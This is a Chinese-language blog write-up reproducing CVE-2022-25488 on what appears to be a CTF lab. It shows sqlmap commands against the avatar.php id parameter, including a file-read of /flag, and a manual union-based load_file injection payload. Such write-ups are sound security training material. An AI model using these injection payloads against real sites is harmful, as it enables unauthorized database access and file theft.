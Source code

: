```yaml
---
title: CVE-2022-25488
subtitle:
date: 2025-03-14T12:13:30+08:00
slug: bd46488
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/2745a2b099742c4446fd668420e9ea2b.png)
访问网站发现提示404，

![](images/a442de9815c07d10ffa1cd43b3a11721.png)
尝试访问所给路径/admin/ajax/avatar.php，依然没有任何显示，访问上一路径

![](images/1ccf0ae4708780f319188f82bdd0b5ee.png)
访问其他文件得到报错

![](images/ab1be5fd8475bfc5e3cfcae18dea3f6c.png)
拿到参数id，sqlmap进行尝试

``` Shell
sqlmap -u "http://eci-2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1"
```



![](images/cbb840f42b684ef446954e80ab685f23.png)
得到数据库类型，进行读flag

``` Shell
sqlmap -u "http://eci 2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1" -D "mysql" --file-read "/flag"
```



![](images/5cd3df30766743afc166042079f90002.png)

手工注入
查看avatar.php内容

![](images/d7f9a5e9bffaa598faa8a48d3ab0563b.png)
尝试注入点?id=1和?id=1' ，发现在id=1时源码发生变化

![](images/1d7ca1b0d577027c1bfc151240470eff.png)
再次尝试id=1 and 1=1 ，判断为字符型

![](images/b82417376d2dc6503ee50c95220cd12e.png)
sql报错注入，使id语法错误，回显flag
?id=-1 union (select load_file('/flag'))#

![](images/5ed87b645cfc9859d8ddfa114515d68f.png)
同样拿到flag





